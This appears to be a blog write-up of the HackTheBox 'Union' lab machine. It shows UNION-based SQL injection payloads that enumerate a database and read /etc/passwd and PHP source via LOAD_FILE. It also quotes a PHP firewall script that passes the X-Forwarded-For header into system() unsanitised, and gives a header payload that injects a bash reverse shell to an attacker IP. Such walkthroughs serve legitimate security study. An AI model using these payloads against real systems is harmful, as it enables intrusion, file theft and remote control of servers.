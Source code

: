 ```yaml
---
layout: post
title: "Union"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security, SQLi, Web, PHP]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


first nmap scan , only port 80 is open 
![/home/d0s3nt/myblog/_site/](assets/img/posts/Union/Pasted image 20240524161744.png)


There's definitely something here our input is checked on db , but how can we inject our sql query on it ?
![/home/d0s3nt/myblog/_site](/assets/img/posts/Union/Pasted image 20240524164641.png)


let's check sqlmap 
![Pasted image 20240524162539.png](/assets/img/posts/Union/Pasted image 20240524162539.png)

sqlmap didn't find anything 


but if we try a manual , UNION injection we can see a different response that may lead to sql injection

![Pasted image 20240524164820.png](/assets/img/posts/Union/Pasted image 20240524164820.png)

we can use this to enumerate database

the database used is `november`
![Pasted image 20240524164945.png](/assets/img/posts/Union/Pasted image 20240524164945.png)
the use is `uhc@localhost`
![Pasted image 20240524165106.png](/assets/img/posts/Union/Pasted image 20240524165106.png)

we an get the tables using 
```
' UNION SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES Where table_schema='november'--  
```
![Pasted image 20240524165512.png](/assets/img/posts/Union/Pasted image 20240524165512.png)

so the tables is `flag`
we can try to read the content of this table using
```
' UNION SELECT * from november.flag-- 
```
![Pasted image 20240524165638.png](/assets/img/posts/Union/Pasted image 20240524165638.png)

UHC{F1rst_5tep_2_Qualify} , if we take a look at challenge.php we will notice that the page is asking for a flag 

if we submit it , we can got ssh open to our ip
![Pasted image 20240524170203.png](/assets/img/posts/Union/Pasted image 20240524170203.png)

but we need credential to ssh into machine , let's try to read files on the machine using sql injection 
```
' UNION SELECT LOAD_FILE('/etc/passwd')--  
```
![Pasted image 20240524170450.png](/assets/img/posts/Union/Pasted image 20240524170450.png)

Now we can read file , let's read the php files 
if we check the firewall.php 

```
' UNION SELECT LOAD_FILE('/var/www/html/firewall.php')--  
```
![Pasted image 20240524170736.png](/assets/img/posts/Union/Pasted image 20240524170736.png)

we can see that we can inject code in header 


```php
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT"); 
?>
```
              

if we use HTTP_X_FORWARDED_FOR we can inject our code into this header

```
X-FORWARDED-FOR: ;bash -c 'exec bash -i &>/dev/tcp/10.10.14.15/1337 <&1';
```

![Pasted image 20240524175113.png](/assets/img/posts/Union/Pasted image 20240524175113.png)

![Pasted image 20240524175152.png](/assets/img/posts/Union/Pasted image 20240524175152.png)

